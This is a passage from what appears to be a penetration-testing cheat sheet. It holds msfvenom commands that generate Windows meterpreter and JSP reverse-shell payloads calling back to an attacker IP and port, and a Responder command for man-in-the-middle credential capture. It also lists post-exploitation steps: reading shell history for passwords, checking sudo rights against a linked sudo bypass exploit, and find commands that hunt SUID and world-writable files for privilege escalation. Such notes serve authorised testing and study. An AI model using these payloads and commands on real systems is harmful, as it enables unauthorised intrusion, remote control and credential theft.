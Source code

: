     [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)

    [Cipher Identifier (online tool) | Boxentriq](https://www.boxentriq.com/code-breaking/cipher-identifier)

- msfvenom(kali) - tool to create malware

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=10.10.10.14 LPORT=4444 -f aspx > ex.aspx

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    ```

- [responder (imapcket)](https://www.notion.so/responder-imapcket-b7bdbbb91ce74e98834dd88ec1715528) - MITM - listening in the background and wait for a failed dns request

    ```bash
    responder -I eth0 -rdwv #Run Responder.py for the length of the engagement while you're working on other attack vectors.
    ```

# Post Exploitation

## Useful commands running locally on the Linux system To quickly analyze the system and possibly help to escalate privileges

- whoami - shows the user we logged in with
- history - show last history, it usually can show any password or personal stuff the user execute
- sudo -l - show what programs we can run without sudo, check all process against [GTFOBins](https://gtfobins.github.io/)
    - if we get `(ALL, !root) /bin/bash`, we can exploit with [this](https://www.exploit-db.com/exploits/47502)
- uname -a - will show us the linux version so we can search for a script that will escalate privileges
- export - check system variables
- processes

    ```bash
    ps -ef
    ps auxf
    ps auxfww
    ```

- find in files

    ```bash
    find . -name "*.java" -type f -exec fgrep -iHn "textToFind" {} \;
    find . -regex ".*\.\(c\|java\)" -type f -exec fgrep -iHn "textToFind" {} \;
    find / -maxdepth 4 -name *.conf -type f -exec grep -Hn "textToFind" {} \; 2>/dev/null
    # SUID files owned by root
    find / -uid 0 -perm -4000 -type f 2>/dev/null
    # SUID files owned by root and world readable
    find / -uid 0 -perm -u=s,o=r -type f -exec ls -la {} \; 2> /dev/null
    # SUID files
    find / -perm -4000 -type f 2>/dev/null
    # world writable directories
    find / -perm -2 -type d 2>/dev/null
